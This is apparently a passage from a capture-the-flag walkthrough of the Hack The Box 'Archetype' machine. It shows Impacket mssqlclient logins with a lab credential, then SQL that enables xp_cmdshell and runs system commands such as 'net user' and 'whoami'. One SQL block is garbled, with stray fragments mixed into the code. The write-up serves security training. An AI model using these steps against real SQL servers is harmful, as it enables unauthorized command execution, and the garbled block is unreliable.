 #### Option 3: Navigate to the Impacket examples directory
```bash
## If you installed from GitHub
cd impacket/examples
python mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.141.44 -windows-auth

## If you installed via pip, the examples might be in:
cd /usr/share/doc/python3-impacket/examples/
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.141.44 -windows-auth
```

#### Option 4: Use Python to run the script
```bash
python /path/to/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.141.44 -windows-auth
```

In Kali Linux specifically, you might need to use:
```bash
/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.141.44 -windows-auth
```

This is a common issue when working with penetration testing tools, as many specialized scripts require specific installation steps or need to be run from particular directories.


### Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

**Question:** What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

**Solution:**


```sql
SELECT is_srvrolemember('sysadmin');
```
```sql
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```
```sql
EXEC xp_cmdshell 'whoami'
```

The xp_cmdshell extended stored procedure allows execution of operating system commands from within SQL Server. If not enabled, it can be activated with:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
